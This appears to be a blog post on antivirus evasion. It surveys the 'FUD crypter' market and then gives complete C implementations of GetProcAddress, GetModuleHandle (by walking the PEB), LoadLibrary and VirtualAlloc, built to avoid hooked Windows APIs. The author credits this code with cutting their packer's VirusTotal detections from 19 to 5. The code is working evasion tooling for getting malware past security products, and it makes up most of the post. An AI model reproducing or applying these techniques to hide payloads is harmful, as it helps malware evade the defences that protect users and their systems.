 ```yaml
---
title: "AV Evasion: The most common techniques (with code examples)"
classes: wide
header:
  teaser: /assets/images/evadingavs/detections.png
ribbon: DodgerBlue
description: "Learn how malware bypassses AV evasion (includes code examples)"
categories:
  - AV-evasion
toc: true
---
```


# Reducing AV detections

Malware authors work 24/7 to find breakthroughs that will allow them to create **FUD** (**Fully Undetected**) malware.

There's even a dedicated marketplace on YouTube and Telegram for people selling their so-called "`FUD crypters`"  that will claim to make *any* exe payload (including actual rat builds) *"have almost 0 detections on virustotal:"*

![Video results for searching "FUD Crypter" on Youtube](/assets/images/evadingavs/videos.png)

![FUD crypter marketplace on Telegram](/assets/images/evadingavs/marketplace.png)

And here's an example of how one of these FUD crypters look like:

![Video results for searching "FUD Crypter" on Youtube](/assets/images/evadingavs/crypter.png)

# How do they do this?

It's a combination of many different techniques. In this post, we'll cover the most basic ones:

- Custom WinAPI function implementations

- String Encryption

- Packing

Let's start with custom WinAPI function implementations:

As you may know, AVs look for programs that use "suspicious" WinAPI functions. We're talking `GetModuleHandle`, `GetProcAddress`, `VirtualAlloc`, etc.

Of course, these functions have legitimate uses, **but they're frequently used by malware authors**.

# The solution

Instead of directly calling a CRT function like `VirtualAlloc`, malware authors will create their own "custom implementations" of these functions.

For example, instead of calling `GetModuleHandleW` directly from the CRT (which is *hooked to death* by AV solutions):

![Direct WinAPI function usage](/assets/images/evadingavs/crtfunction.png)

They will create a custom function (`myGetModuleHandle`) that is meant to **functionally replicate** the original `GetModuleHandleW`, so that, instead of calling `GetModuleHandleW`, we will call `myGetModuleHandle` which looks a lot less suspicious, since it looks like a normal function in our code.

Here's an example of a custom `myGetModuleHandle` implementation that I used in my custom .exe packer:

![Custom WinAPI function implementation](/assets/images/evadingavs/customfunction.png)

As you can see, it manually walks over the linked list of modules (inside the PEB), copies the target module name (`ModuleName`) and the current module's full path (`FullDllName`) into buffers, and checks if the current module name contains (or matches) the target name (case-insensitive partial match).

If it matches, we return the base address (DllBase) of the loaded module:
```c
return (HMODULE)pEntry->DllBase;
```
If it walks through all modules without a match:
```
return NULL;
```

We can then call this custom function in our code. So, instead of doing:
```c
GetModuleHandleW(L"ntdll.dll") // ❌ <-- Hooked!
```
We will call our custom function:
```c
myGetModuleHandleW(L"ntdll.dll") // ✅ <-- Looks like a normal function!
```
For my custom packer, I implemented these custom functions: `myVirtualAlloc`, `MyLoadLibrary`, `myGetModuleHandle`, `myGetProcAddress`.

Below is the code for them:

Custom `GetProcAddress`:
```c
FARPROC myGetProcAddress(HMODULE hModule, LPCSTR lpProcName) {
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)hModule;
	PIMAGE_NT_HEADERS64 ntHeaders = (PIMAGE_NT_HEADERS64)((BYTE*)hModule + dosHeader->e_lfanew);
	PIMAGE_EXPORT_DIRECTORY exportDirectory = (PIMAGE_EXPORT_DIRECTORY)((BYTE*)hModule + ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

	DWORD* addressOfFunctions = (DWORD*)((BYTE*)hModule + exportDirectory->AddressOfFunctions);
	WORD* addressOfNameOrdinals = (WORD*)((BYTE*)hModule + exportDirectory->AddressOfNameOrdinals);
	DWORD* addressOfNames = (DWORD*)((BYTE*)hModule + exportDirectory->AddressOfNames);
	for (DWORD i = 0; i < exportDirectory->NumberOfNames; i++) {
		if (strcmp(lpProcName, (const char*)hModule + addressOfNames[i]) == 0) {
			return (FARPROC)((BYTE*)hModule + addressOfFunctions[addressOfNameOrdinals[i]]);
		}
	}
	return NULL;

}
```

Custom `GetModuleHandle`:

```c
HMODULE myGetModuleHandle(LPCWSTR ModuleName) {
	PEB* pPeb = (PEB*)__readgsqword(0x60);
	PEB_LDR_DATA* Ldr = pPeb->Ldr;
	LIST_ENTRY* ModuleList = &Ldr->InMemoryOrderModuleList;
	LIST_ENTRY* pStartListEntry = ModuleList->Flink;
	WCHAR inputModule[MAX_PATH] = { 0 };
	WCHAR targetModule[MAX_PATH] = { 0 };
	for (LIST_ENTRY* pListEntry = pStartListEntry; pListEntry != ModuleList; pListEntry = pListEntry->Flink) {
		
		LDR_DATA_TABLE_ENTRY* pEntry = (LDR_DATA_TABLE_ENTRY*)((BYTE*)pListEntry - sizeof(LIST_ENTRY));
		wcscpy_s(targetModule, MAX_PATH, ModuleName);
		wcscpy_s(inputModule, MAX_PATH, pEntry->FullDllName.Buffer);

		if (StrStrW(inputModule, targetModule) != NULL) {
			return (HMODULE)pEntry->DllBase;
		}
	}
	return NULL;
}
```

Custom `LoadLibrary`:
```c
typedef NTSTATUS(NTAPI* pLdrLoadDll) (
	PWCHAR PathToFile,
	ULONG Flags,
	PUNICODE_STRING ModuleFileName,
	PHANDLE ModuleHandle
	);
HMODULE MyLoadLibrary(LPCWSTR lpFileName) {
	UNICODE_STRING ustrModule;
	HANDLE hModule = NULL;

	HMODULE hNtdll = myGetModuleHandle((LPCWSTR)L"ntdll.dll");
	pRtlInitUnicodeString RtlInitUnicodeString = (pRtlInitUnicodeString)myGetProcAddress(hNtdll, "RtlInitUnicodeString");

	RtlInitUnicodeString(&ustrModule, lpFileName);

	pLdrLoadDll myLdrLoadDll = (pLdrLoadDll)myGetProcAddress(myGetModuleHandle(L"ntdll.dll"), "LdrLoadDll");
	if (!myLdrLoadDll) {
		return NULL;
	}

	NTSTATUS status = myLdrLoadDll(NULL, 0, &ustrModule, &hModule);
	return (HMODULE)hModule;
}
```

Custom `VirtualAlloc`:

```c
typedef NTSTATUS(NTAPI* pNtAllocateVirtualMemory)(
	HANDLE ProcessHandle,
	PVOID* BaseAddress,
	ULONG_PTR ZeroBits,
	PSIZE_T RegionSize,
	ULONG AllocationType,
	ULONG Protect
	);

LPVOID myVirtualAlloc(SIZE_T size, DWORD allocationType, DWORD protect) {
	HMODULE ntdll = myGetModuleHandle((LPCWSTR)L"ntdll.dll");
	if (ntdll == NULL) {
		printf("Failed to get address of NtAllocateVirtualMemory\n");
		return NULL;
	}
	pNtAllocateVirtualMemory myAllocateVirtualMemory = (pNtAllocateVirtualMemory)myGetProcAddress(ntdll, "NtAllocateVirtualMemory");
	if (!myAllocateVirtualMemory) {
		printf("Failed to get address of NtAllocateVirtualMemory\n");
		return NULL;
	}
	PVOID baseAddress = NULL;
	SIZE_T regionSize = size;

	NTSTATUS status = myAllocateVirtualMemory(
		GetCurrentProcess(),
		&baseAddress,
		0,
		&regionSize,
		allocationType,
		protect
	);
	return baseAddress;

}
```

Combined with some other tricks, these custom functions reduced the detections of my packer to around **5 detections** on VirusTotal:

![Direct WinAPI function usage](/assets/images/evadingavs/detections.png)

Before the custom functions, my packer was at around **19 detections**.









